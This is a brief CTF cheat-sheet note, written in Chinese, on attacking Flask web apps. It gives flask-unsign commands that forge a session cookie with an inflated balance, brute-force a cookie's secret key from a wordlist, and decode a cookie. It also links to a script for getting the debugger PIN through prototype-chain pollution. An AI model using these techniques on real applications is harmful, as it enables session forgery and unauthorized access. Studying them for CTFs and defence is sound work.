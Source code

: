 ## flask session

需要得到 secret,

```sh
pip install flask-unsign
flask-unsign --sign --cookie "{'balance': 666666}" --secret "XMM<XMK"

flask-unsign --unsign --cookie "eyJ1c2VyIjoiaWRkbm0ifQ.YyVDmQ.nXit643ch5T34u092IJSngKbCwI" --wordlist dict.txt
flask-unsign --decode --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8"
```

## flask 原型链污染获取 PIN 码

[Link](../../../../../blog/text/docs/ctf/scripts/web/web_flask_pin_%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93.zip)
